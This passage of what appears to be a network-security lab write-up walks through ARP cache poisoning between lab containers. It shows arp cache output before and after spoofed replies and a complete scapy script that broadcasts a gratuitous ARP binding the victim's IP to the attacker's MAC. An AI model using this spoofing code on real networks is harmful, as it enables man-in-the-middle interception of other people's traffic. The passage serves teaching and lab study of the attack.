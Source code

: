 ```shell
root@b744fccdd43d:/# arp -n    
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
```
Looks good to me!

The scapy script to send an ARP reply is much the same as the previous task except we change the ARP().op from 1 to 2, indicating an ARP reply. We execute the scapy script on Host M and jump to host A to see the results.
```shell
root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```
Looks like the ARP reply has overwritten the entry for host B's MAC address!

#### Scenario 2: B's IP is not in A's cache
Let's flush host A's arp cache:
```shell
root@b744fccdd43d:/# arp -d 10.9.0.6
```

Now that the cache is empty, let's run our script again from the attack host and check host A's cache again:
```shell
root@e09f8cbbb9d3:/volumes# python3 1b.py 
.
Sent 1 packets.
```
```shell
root@b744fccdd43d:/# arp -n
root@b744fccdd43d:/# 
```
We've got nothing. Looks like the attack wasn't successful.

### 1.C using ARP gratuitous message
On host M, construct an ARP gratuitous packet and use it to map B's IP address to M's MAC address and launch the attack under the same two scenarios as task 1.B. 

An ARP gratuitous packet is an ARP reply broadcast. The script is as follows:
```python3
#!/usr/bin/env python3
 from scapy.all import *
 
 M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
 A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
 B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")
 broadcast_mac = "ff:ff:ff:ff:ff:ff"
 
 #sending ethernet packet from host M to all hosts on the subnet
 E = Ether(dst=broadcast_mac, src=M_mac)
 
 A = ARP()
 A.op = 2 #1 for ARP request; 2 for ARP reply
 #we want host A to associate host B's IP address with host M's MAC address, so we need to send an ARP binding like (M_mac, B_ip)
 A.hwsrc = M_mac
 A.psrc = B_ip
 #we're sending this ARP request to all hosts on the subnet
 A.hwdst = broadcast_mac
 A.pdst = A_ip
 
 arp_req = E/A
 sendp(arp_req)
```